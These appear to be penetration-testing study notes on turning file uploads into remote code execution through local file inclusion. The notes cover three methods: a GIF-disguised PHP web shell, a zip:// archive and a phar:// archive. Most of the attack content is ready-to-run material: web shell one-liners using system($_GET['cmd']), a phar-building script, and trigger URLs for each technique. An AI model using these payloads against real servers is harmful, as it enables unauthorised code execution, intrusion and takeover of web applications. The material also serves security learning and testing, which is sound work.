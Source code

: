 ### Overview
- Uploading files to a server can be leveraged via LFI for **Remote Code Execution (RCE)**.
- Exploitation doesn't require a vulnerable upload form, just one that allows file storage.
- If a function like `include()` supports _code execution_, the uploaded file’s content (e.g., PHP) will execute when included.

---
## Relevant Functions for Code Execution

|Function|Read Content|Execute|Remote URL|
|---|---|---|---|
|`include()` / `include_once()` (PHP)|✅|✅|✅|
|`require()` / `require_once()` (PHP)|✅|✅|❌|
|`res.render()` (NodeJS)|✅|✅|❌|
|`import` (Java)|✅|✅|✅|
|`include` (.NET)|✅|✅|✅|

---

## Technique 1: Image Upload

### Step 1: Craft a Malicious Image
```bash
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```
- Use magic bytes (`GIF8`) for content-type checks.
- File extension: `.gif`, `.jpg`, etc.

### Step 2: Upload via Profile or File Upload Feature

### Step 3: Identify File Path

- Check upload path from HTML source:
```html
<img src="/profile_images/shell.gif">
```

### Step 4: Trigger RCE via LFI
```bash
http://<TARGET>/index.php?language=./profile_images/shell.gif&cmd=id
```

---
## Technique 2: Zip Wrapper

### Step 1: Create Malicious Archive
```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
zip shell.jpg shell.php
```

### Step 2: Upload `shell.jpg` (zip file with spoofed extension)

### Step 3: Trigger RCE via zip:// Wrapper
```bash
http://<TARGET>/index.php?language=zip://./profile_images/shell.jpg#shell.php&cmd=id
```

---
## Technique 3: Phar Wrapper

### Step 1: Generate Phar Web Shell
```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');
$phar->stopBuffering();
```

### Step 2: Compile and Rename
```bash
php --define phar.readonly=0 shell.php
mv shell.phar shell.jpg
```

### Step 3: Upload `shell.jpg` (phar archive)

### Step 4: Trigger RCE via phar:// Wrapper
```bash
http://<TARGET>/index.php?language=phar://./profile_images/shell.jpg/shell.txt&cmd=id
```

---
## Notes

- The **image upload method** is the most reliable and framework-independent.
- **zip://** and **phar://** depend on PHP wrapper availability and may fail if disabled.
- Use `../` to escape directories if needed, depending on how the LFI handles input paths.
- Obsolete method (phpinfo + uploads + old PHP) exists but has strict prerequisites.